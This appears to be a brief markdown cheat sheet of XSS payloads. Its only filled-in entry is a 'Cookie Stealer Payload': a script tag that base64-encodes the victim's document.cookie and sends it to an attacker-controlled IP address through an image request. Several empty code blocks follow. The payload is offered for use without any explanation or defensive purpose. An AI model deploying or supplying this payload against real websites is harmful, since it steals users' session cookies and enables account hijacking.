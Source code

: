 # XSS

## Payloads

Cookie Stealer Payload:

```
<script>var i=new Image(); i.src="http://10.10.15.35:80/?cookie="+btoa(document.cookie);</script>
```



```

```



```

```



```

```


```

```
